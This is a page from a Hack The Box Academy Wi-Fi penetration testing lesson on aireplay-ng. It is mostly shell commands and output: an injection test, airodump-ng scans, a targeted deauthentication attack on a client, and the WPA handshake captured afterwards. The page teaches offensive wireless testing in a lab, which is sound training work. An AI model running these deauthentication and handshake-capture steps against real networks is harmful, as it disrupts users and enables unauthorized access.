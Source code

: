 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/222/section/2925
// Platform Version: V1
// Module ID: 222
// Module Name: Wi-Fi Penetration Testing Basics
// Module Difficulty: Medium
// Section ID: 2925
// Section Title: Aireplay-ng
// Page Title: Hack The Box - Academy
// Page Number: 10
-->

# Aireplay-ng

**Module Name:** Wi-Fi Penetration Testing Basics **Page Number:** 10

#### 

#### WI-FI PENETRATION TESTING BASICS

# Aireplay-ng

``` shell-session
lbek@htb[/htb]$ aireplay-ng

 Attack modes (numbers can still be used):
...
      --deauth      count : deauthenticate 1 or all stations (-0)
      --fakeauth    delay : fake authentication with AP (-1)
      --interactive       : interactive frame selection (-2)
      --arpreplay         : standard ARP-request replay (-3)
      --chopchop          : decrypt/chopchop WEP packet (-4)
      --fragment          : generates valid keystream   (-5)
      --caffe-latte       : query a client for new IVs  (-6)
      --cfrag             : fragments against a client  (-7)
      --migmode           : attacks WPA migration mode  (-8)
      --test              : tests injection and quality (-9)

      --help              : Displays this usage screen
```

### Testing for Packet Injection

``` shell-session
lbek@htb[/htb]$ sudo iw dev wlan0mon set channel 1
```

``` shell-session
lbek@htb[/htb]$ sudo aireplay-ng --test wlan0mon

12:34:56  Trying broadcast probe requests...
12:34:56  Injection is working!
12:34:56  Found 27 APs
12:34:56  Trying directed probe requests...
12:34:56   00:09:5B:1C:AA:1D - channel: 1 - 'TOMMY'
12:34:56  Ping (min/avg/max): 0.457ms/1.813ms/2.406ms Power: -48.00
12:34:56  30/30: 100%
<SNIP>
```

### Using Aireplay-ng to perform Deauthentication

``` shell-session
lbek@htb[/htb]$ sudo airodump-ng wlan0mon

CH  1 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0   1  54.  OPN              TOMMY                         
 00:14:6C:7A:41:81   34 100       57       14    1   1  11e  WPA  TKIP   PSK  HTB 
 00:14:6C:7E:40:80   32 100      752       73    2   1  54   WPA  TKIP   PSK  jhony                             

 BSSID              STATION            PWR   Rate   Lost  Frames   Notes  Probes

 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14           HTB 
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4            
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5           HTB 
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           jhony
```

``` shell-session
lbek@htb[/htb]$ sudo aireplay-ng -0 5 -a 00:14:6C:7A:41:81 -c 00:0F:B5:32:31:31 wlan0mon

11:12:33  Waiting for beacon frame (BSSID: 00:14:6C:7A:41:81) on channel 1
11:12:34  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:34  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:35  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:35  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:36  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
```

``` shell-session
lbek@htb[/htb]$ sudo airodump-ng wlan0mon

CH  1 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][ WPA handshake: 00:14:6C:7A:41:81
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0   1  54.  OPN              TOMMY                         
 00:14:6C:7A:41:81   34 100       57       14    1   1  11e  WPA  TKIP   PSK  HTB 
 00:14:6C:7E:40:80   32 100      752       73    2   1  54   WPA  TKIP   PSK  jhony                             

 BSSID              STATION            PWR   Rate   Lost  Frames   Notes  Probes

 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24   212     145   EAPOL  HTB 
 (not associated)   00:14:A4:3F:8D:13   19    0-0      0       4            
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36     0       5          HTB 
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54     0       9          jhony
```

## Moving On

# 

# 

#### Questions

####